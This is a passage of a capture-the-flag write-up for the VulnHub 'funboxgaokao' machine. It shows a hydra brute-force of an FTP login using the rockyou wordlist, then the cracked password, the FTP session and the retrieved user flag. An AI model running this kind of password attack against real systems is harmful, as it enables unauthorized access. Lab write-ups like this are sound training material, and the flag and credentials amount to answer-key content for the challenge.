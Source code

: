 ```shellscript
┌──(zengla㉿kali)-[~/Desktop/funboxgaokao]
└─$ hydra -l sky -P /usr/share/wordlists/rockyou.txt 192.168.1.38 -s 21 ftp
# ... (truncated output) ...
[21][ftp] host: 192.168.1.38   login: sky   password: thebest
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-19 12:37:40
```

`hydra` successfully cracked the FTP password for the user `sky`: `thebest`.

I logged into the FTP server using the cracked credentials.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/funboxgaokao]
└─$ ftp 192.168.1.38
Connected to 192.168.1.38.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.1.38]
Name (192.168.1.38:zengla): sky
331 Password required for sky
Password:
230 User sky logged in
Remote system type is UNIX.
Using binary mode to transfer files.
```

I found a file named `user.flag` with permissions `-rwxr-x---`, owned by `sky` and the group `sarah`.

```shellscript
ftp> ls
229 Entering Extended Passive Mode (|||26633|)
150 Opening ASCII mode data connection for file list
-rwxr-x---   1 sky      sarah          66 Jun  6  2021 user.flag
226 Transfer complete
```

I downloaded the `user.flag` file.

```shellscript
ftp> get user.flag
local: user.flag remote: user.flag
229 Entering Extended Passive Mode (|||17673|)
150 Opening BINARY mode data connection for user.flag (66 bytes)
100% |**************************************************************************************************************************|    66      758.27 KiB/s    00:00 ETA
226 Transfer complete
66 bytes received in 00:00 (65.90 KiB/s)
```

I then attempted to read the contents of the file.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/funboxgaokao]
└─$ cat user.flag
  #!/bin/shecho "Your flag is:88jjggzzZhjJjkOIiu76TggHjoOIZTDsDSd"
```
